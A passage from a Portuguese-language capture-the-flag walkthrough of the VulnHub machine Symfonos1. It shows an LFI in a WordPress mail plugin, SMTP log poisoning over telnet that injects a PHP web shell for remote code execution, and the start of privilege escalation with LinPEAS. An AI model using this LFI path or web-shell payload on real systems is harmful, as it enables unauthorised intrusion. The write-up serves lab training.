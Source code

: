 (Referencia-LEIA)[https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/]

1º Devemos verificar se temos acesso à caixa de email do usuário

**http://192.168.56.105/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios**

Sim, temos...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/rce.png)

2º Acessamos a caixa de e-mail dele pelo terminal

```
telnet 192.168.56.105 25
MAIL FROM: <RCE>
RCPT TO: Helios
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>

.
```

Enviado! Verificamos novamente no LFI

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/rce2.png)

Confirmando, temos RCE

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/rce3.png)

Agora pegamos uma Reverse Shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/rce4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/rce5.png)

# Helios -> Root

Bom, vamos iniciar a escalação de privilégio agora

Como boa prática, vamos executar o (Linpeas)[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS]

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin.png)

Baixamos e executamos na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin1.png)

O que nos retornou de bacana foi esse **/opt/statuscheck**

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin2.png)
